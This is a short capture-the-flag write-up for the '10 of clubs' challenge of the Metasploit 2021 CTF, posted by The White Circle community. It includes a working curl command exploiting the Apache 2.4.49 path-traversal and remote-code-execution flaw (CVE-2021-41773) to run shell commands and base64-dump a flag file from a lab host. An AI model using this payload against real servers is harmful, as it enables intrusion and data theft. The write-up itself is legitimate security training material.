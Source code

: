 ```yaml
---
layout: load_md
title: The White Circle | Metasploit 2021 | 10 of clubs Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Metasploit 2021
parent: metasploit_2021
category: 10_of_clubs
challenge: 10 of clubs
tags: "web, starry, cve, rce"
date: 2021-12-08T00:00:00+00:00
last_update: 2021-12-08T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Metasploit 2021</h1>
## 10 of clubs

> Solved by: Starry-Lord

```
port 12380
```

This port was using Apache httpd 2.4.49 and I found a good research on the subject here:

https://blog.qualys.com/vulnerabilities-threat-research/2021/10/27/apache-http-server-path-traversal-remote-code-execution-cve-2021-41773-cve-2021-42013


I didn't need to get a shell. ls and cat commands were enough to extract the png:


```
curl -vv 'http://172.17.15.117:12380/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh' -d 'A=|echo; cat ../secret/safe/flag.png|base64'
```

![](https://i.imgur.com/aYyIBok.png)